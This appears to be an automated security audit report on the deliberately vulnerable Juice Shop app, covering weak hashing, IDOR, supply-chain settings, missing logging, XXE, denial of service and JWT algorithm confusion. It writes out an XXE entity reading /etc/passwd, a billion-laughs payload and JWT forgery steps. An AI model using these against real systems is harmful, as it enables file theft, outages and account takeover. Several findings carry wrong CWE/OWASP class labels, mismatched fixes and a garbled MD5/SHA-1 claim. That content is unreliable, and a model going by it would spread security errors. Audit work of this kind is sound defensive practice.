If an attacker exfiltrates the Users table (e.g. via the SQLi at `login.ts:34`), they can crack `MD5` hashes in seconds using rainbow tables or GPU-accelerated dictionary attacks (`MD5` computes ~50 billion hashes/second on consumer hardware). Attacker who obtains any User row can recover the plaintext password offline in seconds, enabling account takeover and 2FA disablement.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified - crypto.createHash('md5') at `lib/insecurity.ts:43` is the sole password hashing function used application-wide; no salt is applied.

**Fix:** Replace the broken hash with a salted password-hashing function (bcrypt/Argon2id) → ❷ [M-029](#m-029) — Hash passwords with a strong, salted algorithm

**Classification:** Code Execution via Unsafe Deserialization or Eval · [CWE-916](https://cwe.mitre.org/data/definitions/916.html) · [OWASP A08:2021](https://owasp.org/Top10/A08_2021/)

<a id="t-037"></a><a id="f-037"></a>
#### F-037 · Use of a Broken or Risky Cryptographic Algorithm

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `lib/insecurity.ts:43`

**Issue:** All user passwords are hashed using bare `crypto.createHash('md5')` at `lib/insecurity.ts:43` with no salt. `MD5` is broken for password storage - a single `SHA-1` pass on a 2080Ti cracks 10 billion `MD5` hashes per second.

When an attacker extracts the Users table via SQL injection (backend-api-004 or backend-api-005), all passwords are immediately recoverable via pre-computed rainbow tables (e.g., CrackStation covers all 8-character passwords). After any credential dump, all user passwords are recoverable offline without brute-force, enabling cross-service credential stuffing at scale.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified - `crypto.createHash('md5').update(data).digest('hex')` at `lib/insecurity.ts:43` provides no salting and uses a broken-for-passwords algorithm.

**Fix:** Replace the broken algorithm with a vetted modern primitive (AES-GCM / Argon2id / Ed25519) → ❷ [M-030](#m-030) — Replace the weak cryptographic algorithm

**Classification:** Cryptographic Failures · [CWE-327](https://cwe.mitre.org/data/definitions/327.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-039"></a><a id="f-039"></a>
#### F-039 · Insecure Direct Object Reference (IDOR)

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `routes/delivery.ts:34`

**Issue:** Any authenticated user can substitute another user's resource ID in the URL and read or modify the target record because the query filter has no ownership clause. Admin-only routes are excluded via the counter-pattern allowlist.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - An object-identity parameter is trusted from the request without server-side ownership check.

```typescript
// routes/delivery.ts:34
export function getDeliveryMethod () {
  return async (req: Request, res: Response, next: NextFunction) => {
    const method = await DeliveryModel.findOne({ where: { id: req.params.id } })
    if (method != null) {
      const sendMethod = {
```

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ❷ [M-031](#m-031) — Enforce object-level (ownership) authorization

**Classification:** Broken Access Control · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-040"></a><a id="f-040"></a>
#### F-040 · Insecure Direct Object Reference (IDOR)

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `routes/orderHistory.ts:36`

**Issue:** Any authenticated user can substitute another user's resource ID in the URL and read or modify the target record because the query filter has no ownership clause. Admin-only routes are excluded via the counter-pattern allowlist.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - An object-identity parameter is trusted from the request without server-side ownership check.

```typescript
// routes/orderHistory.ts:36
    const deliveryStatus = !req.body.deliveryStatus
    const eta = deliveryStatus ? '0' : '1'
    await ordersCollection.update({ _id: req.params.id }, { $set: { delivered: deliveryStatus, eta } })
    res.status(200).json({ status: 'success' })
  }
```

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ❷ [M-031](#m-031) — Enforce object-level (ownership) authorization

**Classification:** Broken Access Control · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-041"></a><a id="f-041"></a>
#### F-041 · Root-Privilege Postinstall Execution Docker Build

**Severity:** 🟠 High  ·  **Component:** [C-06](#c-06) - CI/CD Pipeline  ·  **Location:** `Dockerfile:5`

**Issue:** `Dockerfile:5` runs `npm install --omit=dev --unsafe-perm` inside the `node:24` builder stage. The `--unsafe-perm` flag lifts the uid/gid downgrade that npm normally applies when running as root, so package lifecycle scripts (`preinstall`, `install`, `postinstall`) execute with full root permissions inside the build container.

Combined with the disabled lockfile (`.npmrc:1`), any transitive dependency that ships a malicious postinstall script can read secrets from the build environment (build args, mounted volumes), write to arbitrary filesystem paths, or exfiltrate data to external endpoints during the Docker build. A malicious npm package with a postinstall script can exfiltrate `DOCKERHUB_TOKEN`, `HEROKU_API_KEY`, or other secrets passed as build-time arguments, or backdoor the produced container image.

**Evidence:** ✓ verified - `Dockerfile:5` passes `--unsafe-perm` to `npm install` in a root-user build stage, granting postinstall scripts unrestricted filesystem and network access.

```dockerfile
// Dockerfile:5
WORKDIR /juice-shop
RUN npm i -g typescript ts-node
RUN npm install --omit=dev --unsafe-perm
RUN npm dedupe --omit=dev
RUN rm -rf frontend/node_modules
```

**Fix:** ❷ [M-032](#m-032) — Drop unnecessary privileges in build and runtime

**Classification:** Supply-Chain Integrity · [CWE-250](https://cwe.mitre.org/data/definitions/250.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-042"></a><a id="f-042"></a>
#### F-042 · Lockfile Disabled Enabling Dependency Confusion

**Severity:** 🟠 High  ·  **Component:** [C-06](#c-06) - CI/CD Pipeline  ·  **Location:** `.npmrc:1`

**Issue:** `.npmrc` sets `package-lock=false` at line 1, and `package-lock.json` is also listed in `.gitignore`. Every `npm install` in CI - including the test matrix (6 OS/node combinations in `ci.yml:85`), api-test (9 combinations at `ci.yml:125`), e2e tests (`ci.yml:211`), and the release packaging job (`release.yml:41`) - resolves dependency versions from the npm registry at install time with no lockfile to constrain them.

An attacker who publishes a malicious patch version of any transitive dependency can have it installed into the next CI run. A dependency confusion or typosquatting attack yields code execution inside the GitHub Actions runner with access to all secrets scoped to that workflow run.

**Evidence:** ✓ verified - `.npmrc:1` permanently disables lockfile generation with `package-lock=false`; CI jobs call `npm install` without version pinning or integrity verification.

```
// .npmrc:1
package-lock=false
```

**Fix:** ❷ [M-033](#m-033) — Pin third-party dependencies to immutable versions

**Classification:** Supply-Chain Integrity · [CWE-829](https://cwe.mitre.org/data/definitions/829.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-043"></a><a id="f-043"></a>
#### F-043 · Use of Unmaintained Third-Party Components

**Severity:** 🟠 High  ·  **Component:** [C-06](#c-06) - CI/CD Pipeline  ·  **Location:** `.github/workflows/codeql-analysis.yml:23`

**Issue:** `codeql-analysis.yml` references `github/codeql-action/init@v3`, `github/codeql-action/autobuild@v3`, and `github/codeql-action/analyze@v3` at lines 23, 34, and 36 - all three are mutable floating tags, not SHA-pinned. GitHub tag references resolve at runtime: any GitHub user with push access to the `github/codeql-action` repository can move the `v3` tag to point to a different commit.

The CodeQL workflow runs on every push and every pull request with `security-events: write` permission and the default GITHUB_TOKEN. A tag-redirect attack lets an adversary run arbitrary code in CI with `security-events: write` and (via write-all GITHUB_TOKEN in other workflows) full repository write access.

**Evidence:** ✓ verified - `codeql-analysis.yml:23` uses `github/codeql-action/init@v3` - a human-readable tag, not a commit SHA - meaning the referenced code can change without any change to the workflow file.

```yaml
// .github/workflows/codeql-analysis.yml:23
      uses: actions/checkout@11bd71901bbe5b1630ceea73d27597364c9af683 #v4.2.2
    - name: Initialize CodeQL
      uses: github/codeql-action/init@v3
      with:
        languages: ${{ matrix.language }}
```

**Fix:** Replace the unmaintained dependency with a maintained equivalent or fork it under ownership → ❷ [M-034](#m-034) — Pin the container base image to an immutable digest

**Classification:** Supply-Chain Integrity · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-046"></a><a id="f-046"></a>
#### F-046 · Log Injection

**Severity:** 🟠 High  ·  **Component:** [C-07](#c-07) - Authentication & Session Surface  ·  **Location:** `routes/saveLoginIp.ts:18`

**Issue:** Reads `req.headers`['true-client-ip'] and persists its value as the user's lastLoginIp in the database without validation. An attacker who has authenticated (legitimately or via auth-001/auth-003) sets the True-Client-IP header to any string (e.g. '127.0.0.1' or another user's real IP).

The stored IP is then used as the forensic source of the login event. Attacker falsifies the forensic login origin recorded in the database, defeating IP-based attribution and audit trail integrity.

**Evidence:** ✓ verified - `req.headers`['true-client-ip'] is read at `saveLoginIp.ts:18` and written directly to UserModel.lastLoginIp with no server-side IP validation.

```typescript
// routes/saveLoginIp.ts:18
    const loggedInUser = security.authenticatedUsers.from(req)
    if (loggedInUser !== undefined) {
      let lastLoginIp = req.headers['true-client-ip']
      if (Array.isArray(lastLoginIp)) {
        lastLoginIp = lastLoginIp[0]
```

**Fix:** ❷ [M-037](#m-037) — Derive lastLoginIp from socket.remoteAddress rather than a spoofable request header

**Classification:** Insecure Real-Time Channel · [CWE-117](https://cwe.mitre.org/data/definitions/117.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-047"></a><a id="f-047"></a>
#### F-047 · Insufficient Logging

**Severity:** 🟠 High  ·  **Component:** [C-07](#c-07) - Authentication & Session Surface  ·  **Location:** `routes/login.ts:18`

**Issue:** `routes/login.ts`, `routes/resetPassword.ts`, and `routes/2fa.ts` contain zero calls to any logger or audit sink. Successful and failed logins are recorded only in the Morgan HTTP access log (`server.ts` generic middleware) which captures HTTP method, path, status code, and response time - not the authenticated user identity, outcome reason, or source IP in a searchable structured format.

An attacker who successfully authenticates via SQLi injection (auth-001) or after an account takeover can later deny the action; defenders have no forensic record of who authenticated when, from which real IP, and with what credential type. Inability to attribute authentication events to actors or reconstruct attack timelines after an incident, failing PCI-DSS 10.x and SOC2 CC7 audit requirements.

**Evidence:** ✓ verified - Grep over `routes/login.ts`, `routes/resetPassword.ts`, and `routes/2fa.ts` finds no logger.info/warn/error, no `audit()`, and no structured security event emission.

```typescript
// routes/login.ts:18

// vuln-code-snippet start loginAdminChallenge loginBenderChallenge loginJimChallenge
export function login () {
  function afterLogin (user: { data: User, bid: number }, res: Response, next: NextFunction) {
    verifyPostLoginChallenges(user) // vuln-code-snippet hide-line
```

**Fix:** ❷ [M-038](#m-038) — Add security audit logging

**Classification:** Cross-Site Request Forgery (CSRF) · [CWE-778](https://cwe.mitre.org/data/definitions/778.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-048"></a><a id="f-048"></a>
#### F-048 · Insufficient Logging

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `server.ts:338`

**Issue:** The application relies solely on Morgan HTTP access logging (`server.ts:338`) for audit purposes. Morgan records HTTP method, URL, status code, and response time in combined log format - it does not record: (a) which user ID authenticated, (b) failed login attempts with the target email, (c) role escalation via mass-assignment, (d) admin actions (order status changes, user deletions).

An attacker who logs in as admin via JWT forgery (backend-api-001 or backend-api-002) and then deletes user accounts or exfiltrates order data leaves no security-relevant audit trail. After a breach, incident responders cannot reconstruct which accounts were compromised, which admin actions were performed, or when privilege escalation occurred - violating SOC2 CC7.2 and PCI-DSS Requirement 10.

**Evidence:** ✓ verified - `Server.ts:338` configures only Morgan HTTP access logging; no structured auth/authz event emission exists in any route handler or middleware in the codebase.

```typescript
// server.ts:338
    max_logs: '2d'
  })
  app.use(morgan('combined', { stream: accessLogStream }))

  // vuln-code-snippet start resetPasswordMortyChallenge
```

**Fix:** ❷ [M-039](#m-039) — Add security audit logging

**Classification:** Missing Audit Logging & Accountability · [CWE-778](https://cwe.mitre.org/data/definitions/778.html) · [OWASP A09:2021](https://owasp.org/Top10/A09_2021/)

<a id="t-049"></a><a id="f-049"></a>
#### F-049 · Insufficient Logging

**Severity:** 🟠 High  ·  **Component:** [C-04](#c-04) - File Upload Handler  ·  **Location:** `routes/fileUpload.ts:27`

**Issue:** An attacker uploads malicious ZIP, XML, or YAML files to `/file-upload`. The handler at `fileUpload.ts` contains no calls to `logger.info()` or any structured audit logger recording the upload event, the file name, the source IP, or any user identity.

`Server.ts:309` registers this route without authentication, so there is no identity to attribute in the first place. Successful exploitation of path traversal or XXE cannot be attributed or detected through server logs; incident responders cannot determine what was exfiltrated or overwritten.

**Evidence:** ✓ verified - Grep of `routes/fileUpload.ts` shows zero calls to `logger.*` - all upload processing occurs with no audit trail; the route also has no authentication so no identity attribution is possible.

```typescript
// routes/fileUpload.ts:27
}

function handleZipFileUpload ({ file }: Request, res: Response, next: NextFunction) {
  if (utils.endsWith(file?.originalname.toLowerCase(), '.zip')) {
    if (((file?.buffer) != null) && utils.isChallengeEnabled(challenges.fileWriteChallenge)) {
```

**Fix:** ❷ [M-040](#m-040) — Add security audit logging

**Classification:** Missing Audit Logging & Accountability · [CWE-778](https://cwe.mitre.org/data/definitions/778.html) · [OWASP A09:2021](https://owasp.org/Top10/A09_2021/)

<a id="t-050"></a><a id="f-050"></a>
#### F-050 · JWT token cookie set without

**Severity:** 🟠 High  ·  **Component:** [C-07](#c-07) - Authentication & Session Surface  ·  **Location:** `lib/insecurity.ts:195`

**Issue:** Calls res.cookie('token', token) with no options object. This sets the JWT as a cookie accessible to JavaScript (no HttpOnly flag) and transmittable over HTTP (no Secure flag) and without SameSite restriction.

Any XSS vulnerability (of which Juice Shop has several) can read `document.cookie` and exfiltrate the session token. XSS or network interception yields the bearer JWT, giving an attacker a 6-hour authenticated session as the victim user.

**Evidence:** ✓ verified - res.cookie('token', token) at `lib/insecurity.ts:195` is called without { httpOnly: true, secure: true, sameSite: 'strict' } options.

```typescript
// lib/insecurity.ts:195
        if (authenticatedUsers.get(token) === undefined) {
          authenticatedUsers.put(token, decoded)
          res.cookie('token', token)
        }
      }
```

**Fix:** Set `Secure` on every session cookie and enforce HTTPS-only delivery → ❷ [M-041](#m-041) — Set HttpOnly, Secure, and SameSite=Strict on the JWT token cookie

**Classification:** Cross-Site Scripting (XSS) · [CWE-614](https://cwe.mitre.org/data/definitions/614.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-051"></a><a id="f-051"></a>
#### F-051 · Information Disclosure

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `server.ts:208`

**Issue:** The Prometheus metrics endpoint `GET /metrics` is served without any authentication middleware (observed via `metrics.observeRequestMetricsMiddleware()` registered at `server.ts:208` globally). The endpoint exposes request counters per route, startup duration, file upload counts, and any custom gauges.

An attacker learns: (a) which API routes receive traffic - helping plan targeted attacks; (b) startup task timing - indicating component boundaries; (c) whether the admin panel or B2B endpoint has ever been called. Information gathering aid for an external attacker: route traffic patterns, application structure, and timing data disclosed without authentication.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - Prometheus metrics registered globally at `server.ts:208` with no `isAuthorized()` guard before the `/metrics` handler.

**Fix:** Restrict the response to the minimum fields needed and never echo secrets → ❷ [M-042](#m-042) — Stop exposing internal information to clients

**Classification:** Error Information Disclosure · [CWE-200](https://cwe.mitre.org/data/definitions/200.html) · [OWASP A05:2021](https://owasp.org/Top10/A05_2021/)

<a id="t-052"></a><a id="f-052"></a>
#### F-052 · Information Disclosure

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `server.ts:269`

**Issue:** Three sensitive directory trees are served without authentication: (1) `/ftp` at `server.ts:269` via `serve-index` - lists all files in the `ftp/` directory including generated order confirmation PDFs (containing customer names and email addresses) and any file uploaded by users. (2) `/encryptionkeys` at `server.ts:277` - exposes the JWT public key and any other key material stored there.

(3) `/support/logs` at `server.ts:281` via `serve-index` and `serveLogFiles()` - exposes Morgan combined-format HTTP access logs containing full request URLs (including search queries with PII patterns like emails), IP addresses, and User-Agent strings. Anonymous exfiltration of customer order data, access logs containing IP/session patterns, and JWT public key material - all from a single unauthenticated HTTP request.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - `serveIndex('ftp', ...)`, `serveIndex('encryptionkeys', ...)`, and `serveIndex('logs', ...)` are registered without any `security.isAuthorized()` middleware at `server.ts:269`–283.

**Fix:** Restrict the response to the minimum fields needed and never echo secrets → ❷ [M-043](#m-043) — Stop exposing internal information to clients

**Classification:** Error Information Disclosure · [CWE-200](https://cwe.mitre.org/data/definitions/200.html) · [OWASP A05:2021](https://owasp.org/Top10/A05_2021/)

<a id="t-054"></a><a id="f-054"></a>
#### F-054 · Incorrect Permission Assignment

**Severity:** 🟠 High  ·  **Component:** [C-06](#c-06) - CI/CD Pipeline  ·  **Location:** `.github/workflows/codeql-analysis.yml:1`

**Instances (10):** `.github/workflows/codeql-analysis.yml:1`, `.github/workflows/frontend-bundle-analysis.yml:1`, `.github/workflows/lint-fixer.yml:1`, `.github/workflows/rebase.yml:1`, `.github/workflows/release.yml:1`, `.github/workflows/stale.yml:1`, `.github/workflows/update-challenges-ebook.yml:1`, `.github/workflows/update-challenges-www.yml:1` … (+2 more)

**Issue:** The CodeQL workflow defines permissions only at job level. Without a workflow-root permissions block, the inherited default applies to any job that omits its own block. An injected action in an unpermissioned job receives write-all GITHUB_TOKEN access.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - A sensitive resource is created with permissive default permissions.

```yaml
// .github/workflows/codeql-analysis.yml:1
name: "CodeQL Scan"

on:
```

**Fix:** ❷ [M-001](#m-001) — Apply least-privilege permissions

**Classification:** Error Information Disclosure · [CWE-732](https://cwe.mitre.org/data/definitions/732.html) · [OWASP A05:2021](https://owasp.org/Top10/A05_2021/)

<a id="t-055"></a><a id="f-055"></a>
#### F-055 · Third-party GitHub Actions not pinned

**Severity:** 🟠 High  ·  **Component:** [C-06](#c-06) - CI/CD Pipeline  ·  **Location:** `.github/workflows/codeql-analysis.yml:23`

**Instances (2):** `.github/workflows/codeql-analysis.yml:23`, `.github/workflows/ci.yml:161`

**Issue:** The CodeQL workflow uses 'github/codeql-action/init@v3', 'github/codeql-action/autobuild@v3', and 'github/codeql-action/analyze@v3' with mutable version tags. A compromise of the github/codeql-action repository or its tag could inject malicious code that runs in the security scanning context, with access to all repository secrets.

**Evidence:** ✓ verified

```yaml
// .github/workflows/codeql-analysis.yml:23
      uses: actions/checkout@11bd71901bbe5b1630ceea73d27597364c9af683 #v4.2.2
    - name: Initialize CodeQL
      uses: github/codeql-action/init@v3
      with:
        languages: ${{ matrix.language }}
```

**Fix:** ❷ [M-002](#m-002) — Pin third-party dependencies to immutable versions

**Classification:** Supply-Chain Integrity · [CWE-829](https://cwe.mitre.org/data/definitions/829.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-056"></a><a id="f-056"></a>
#### F-056 · Use of Unmaintained Third-Party Components

**Severity:** 🟠 High  ·  **Component:** [C-06](#c-06) - CI/CD Pipeline  ·  **Location:** `Dockerfile:1`

**Instances (2):** `Dockerfile:1`, `Dockerfile:23`

**Issue:** The installer stage base image 'node:24' is referenced by mutable tag only. A supply-chain attacker who compromises the node Docker Hub namespace can silently push a backdoored image under the same tag; the next CI build will pull and execute it with full build-environment access including source code and npm credentials.

**Evidence:** ✓ verified

```dockerfile
// Dockerfile:1
FROM node:24 AS installer
COPY . /juice-shop
WORKDIR /juice-shop
```

**Fix:** Replace the unmaintained dependency with a maintained equivalent or fork it under ownership → ❷ [M-003](#m-003) — Pin the container base image to an immutable digest

**Classification:** Supply-Chain Integrity · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-057"></a><a id="f-057"></a>
#### F-057 · ~~Use of Unmaintained Third-Party Components~~ ⚠

**Severity:** 🟠 High  ·  **Component:** [C-06](#c-06) - CI/CD Pipeline  ·  **Location:** `package-lock.json`

**Issue:** No `package-lock.json` is committed to the repository. Without a lockfile, 'npm install' resolves transitive dependency versions at install time. A dependency confusion or version-squatting attack can silently introduce a malicious package version in any environment that runs npm install.

**Evidence:** ⚠ refuted

**Fix:** Replace the unmaintained dependency with a maintained equivalent or fork it under ownership → ❷ [M-004](#m-004) — Pin the container base image to an immutable digest

**Classification:** Supply-Chain Integrity · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-059"></a><a id="f-059"></a>
#### F-059 · XML External Entity (XXE)

**Severity:** 🟠 High  ·  **Component:** [C-04](#c-04) - File Upload Handler  ·  **Location:** `routes/fileUpload.ts:83`

**Issue:** An unauthenticated attacker POSTs a crafted XML file to `/file-upload` containing an external entity declaration such as `<!ENTITY xxe SYSTEM "file:///etc/passwd">`. Because `libxmljs2.parseXml()` is invoked with `noent: true` at line 83, the external entity is resolved by the XML parser.

The resolved file content is then embedded in the XML document, and `xmlDoc.toString(false)` at line 84 returns it. Arbitrary local file read by unauthenticated callers; attacker can exfiltrate `/etc/passwd`, application secrets, private keys, and database connection strings from the server filesystem.

**Root cause:** User input flows into a server-side interpreter (SQL, NoSQL, XML, YAML, LDAP, OS shell) without parameterization or schema validation.

**Evidence:** ✓ verified - `libxml.parseXml(data, { noent: true })` resolves external entities and the resulting XML string is embedded verbatim in the 410 error response body, directly disclosing file contents to the caller.

```typescript
// routes/fileUpload.ts:83
        const sandbox = { libxml, data }
        vm.createContext(sandbox)
        const xmlDoc = vm.runInContext('libxml.parseXml(data, { noblanks: true, noent: true, nocdata: true })', sandbox, { timeout: 2000 })
        const xmlString = xmlDoc.toString(false)
        challengeUtils.solveIf(challenges.xxeFileDisclosureChallenge, () => { return (utils.matchesEtcPasswdFile(xmlString) || utils.matchesSystemIniFile(xmlString)) })
```

**Fix:** Disable external entity resolution on every XML parser and reject DOCTYPE declarations → ❷ [M-046](#m-046) — Disable XML external entity (XXE) resolution

**Classification:** Injection · [CWE-611](https://cwe.mitre.org/data/definitions/611.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-061"></a><a id="f-061"></a>
#### F-061 · Missing Rate Limiting (Brute-Force)

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `server.ts:594`

**Issue:** `server.ts:594` registers `app.post`('/rest/user/login', `login()`) with no rate-limit middleware. An attacker can issue unlimited login attempts from a single IP or distributed botnet.

This enables: (1) credential stuffing using leaked credential lists to find valid user/password pairs; (2) brute-force of short or common passwords given `MD5` hashing makes online guessing the same latency as the DB lookup; (3) high-concurrency login floods that saturate SQLite connections and deny service to legitimate users. Attacker enumerates valid credentials via credential stuffing or degrades service availability through login-endpoint flooding.

**Evidence:** ✓ verified - `server.ts:594` registers the login route without any `rateLimit()` call; all other auth sub-routes have rate limiting.

```typescript
// server.ts:594

  /* Custom Restful API */
  app.post('/rest/user/login', login())
  app.get('/rest/user/change-password', changePassword())
  app.post('/rest/user/reset-password', resetPassword())
```

**Fix:** Apply rate limiting and lock-out thresholds on authentication endpoints → ❷ [M-048](#m-048) — Rate-limit and lock out repeated authentication attempts

**Classification:** Open Redirect · [CWE-307](https://cwe.mitre.org/data/definitions/307.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-062"></a><a id="f-062"></a>
#### F-062 · Uncontrolled Resource Consumption

**Severity:** 🟠 High  ·  **Component:** [C-05](#c-05) - B2B Order API  ·  **Location:** `routes/b2bOrder.ts:23`

**Issue:** `POST /b2b/v2/orders` has no rate limiting (confirmed in manifest: 'No rate limiting on this endpoint'). The `vm.runInContext('safeEval(orderLinesData)', sandbox, { timeout: 2000 })` at line 23 consumes CPU for up to 2 seconds per request.

An attacker (or unauthenticated caller via `alg:none`) sends concurrent requests each containing a computationally intensive expression - the route itself calls `challengeUtils.solveIf(challenges.rceOccupyChallenge, ...)` in the timeout branch at line 27, confirming the server-resource-occupation path is exercised. Sustained concurrent requests exhaust `Node.js` event loop CPU, causing application-wide denial of service affecting all tenants on the shared process.

**Evidence:** ✓ verified - No rate-limit middleware is registered before the `b2bOrder()` handler, and `vm.runInContext` at line 23 imposes a 2-second hard ceiling per call - providing per-request control but no per-client or per-minute request cap.

**Fix:** Bound the request rate and the per-request resource budget on this endpoint → ❷ [M-049](#m-049) — Add per-IP rate limiting to POST `/b2b/v2/orders`

**Classification:** Denial of Service · [CWE-400](https://cwe.mitre.org/data/definitions/400.html) · [OWASP A04:2021](https://owasp.org/Top10/A04_2021/)

<a id="t-063"></a><a id="f-063"></a>
#### F-063 · Uncontrolled Resource Consumption

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `server.ts:343`

**Issue:** The `POST /rest/user/login` route (registered at `server.ts` via the finale-rest auto-routes block) has no rate limiting applied. An attacker sends credential-stuffing requests at full network speed - tens of thousands of email/password combinations per minute.

The only friction is the `MD5` hash computation on each request, which is trivially fast. Unlimited credential stuffing against all registered accounts, with attacker-controlled throughput limited only by network bandwidth.

**Evidence:** ✓ verified - No express-rate-limit middleware is registered before POST `/rest/user/login` in `server.ts`; the password-reset endpoint at `server.ts:343` is the only rate-limited auth path.

**Fix:** Bound the request rate and the per-request resource budget on this endpoint → ❷ [M-050](#m-050) — Apply rate limiting and account lockout to POST `/rest/user/login`

**Classification:** Denial of Service · [CWE-400](https://cwe.mitre.org/data/definitions/400.html) · [OWASP A04:2021](https://owasp.org/Top10/A04_2021/)

<a id="t-064"></a><a id="f-064"></a>
#### F-064 · Uncontrolled Resource Consumption

**Severity:** 🟠 High  ·  **Component:** [C-04](#c-04) - File Upload Handler  ·  **Location:** `routes/fileUpload.ts:83`

**Issue:** An unauthenticated attacker sends repeated requests to `POST /file-upload` with XML files containing `<!ENTITY lol9 "&lol8;&lol8;...">` (billion laughs) or YAML files with deeply recursive anchor chains. The `/file-upload` endpoint requires no authentication (`server.ts:309` has no JWT middleware before this route).

The 200KB Multer limit applies per request but does not prevent high request volume. Process crash or sustained CPU/memory exhaustion making the entire Juice Shop application unavailable to all users.

**Evidence:** ✓ verified - The `/file-upload` route is unauthenticated (`server.ts:309` has no auth middleware), unbounded by rate limiting, and passes uploads directly to XML/YAML parsers that perform in-process synchronous expansion before vm timeouts can fire.

**Fix:** Bound the request rate and the per-request resource budget on this endpoint → ❷ [M-051](#m-051) — Bound parser and decompression resource limits

**Classification:** Denial of Service · [CWE-400](https://cwe.mitre.org/data/definitions/400.html) · [OWASP A04:2021](https://owasp.org/Top10/A04_2021/)

<a id="t-065"></a><a id="f-065"></a>
#### F-065 · Uncontrolled Resource Consumption

**Severity:** 🟠 High  ·  **Component:** [C-08](#c-08) - Real-time WebSocket Channel  ·  **Location:** `lib/startup/registerWebsocketEvents.ts:20`

**Issue:** The Socket\.IO server instantiated at line 20 of `registerWebsocketEvents.ts` (`new Server(server, { cors: { origin: 'http://localhost:4200' } })`) specifies no `maxHttpBufferSize`, no connection rate limit, and no per-event message size constraint. An unauthenticated attacker can: (a) open thousands of concurrent WebSocket connections, each triggering `notifications.forEach(...)` to replay all pending notifications - O(connections x notifications) server work; (b) flood any of the three `socket.on(...)` event handlers with large payloads - `utils.contains(data, ...)` and the regex at line 47 operate on unbounded `data`; (c) cause a connect/disconnect storm that enumerates the `firstConnectedSocket` race condition.

No circuit breaker or max-connection limit is set at the application layer. A connection flood exhausts server memory and CPU via per-connection notification replay, degrading or crashing the application for all users.

**Evidence:** ✓ verified - `new Server(server, { cors: ... })` at line 20 sets no `maxHttpBufferSize`, `connectionStateRecovery`, or socket connection limits; `notifications.forEach(...)` at line 30 runs synchronously for every new connection.

**Fix:** Bound the request rate and the per-request resource budget on this endpoint → ❷ [M-052](#m-052) — Set Socket\.IO connection limits and add upstream rate limiting for WebSocket upgrades

**Classification:** Denial of Service · [CWE-400](https://cwe.mitre.org/data/definitions/400.html) · [OWASP A04:2021](https://owasp.org/Top10/A04_2021/)

<a id="t-066"></a><a id="f-066"></a>
#### F-066 · Improper Privilege Management

**Severity:** 🟠 High _(raw Critical)_  ·  **Component:** [C-07](#c-07) - Authentication & Session Surface  ·  **Location:** `lib/insecurity.ts:54`

**Issue:** The public key is served at `/encryptionkeys/jwt.pub` (static file serving confirmed in manifest). An attacker retrieves this public key and crafts a JWT signed with `HS256` using the public key bytes as the HMAC secret.

express-jwt 0.1.3 and `isAuthorized()` do not restrict accepted algorithms. Attacker elevates their JWT role claim to 'admin' or 'accounting' without the RSA private key, gaining access to all privileged routes.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - `isAuthorized()` at `lib/insecurity.ts:54` passes only { secret: publicKey } to express-jwt 0.1.3 without algorithms restriction, enabling algorithm confusion attacks.

```typescript
// lib/insecurity.ts:54
}

export const isAuthorized = () => expressJwt(({ secret: publicKey }) as any)
export const denyAll = () => expressJwt({ secret: '' + Math.random() } as any)
export const authorize = (user = {}) => jwt.sign(user, privateKey, { expiresIn: '6h', algorithm: 'RS256' })
```

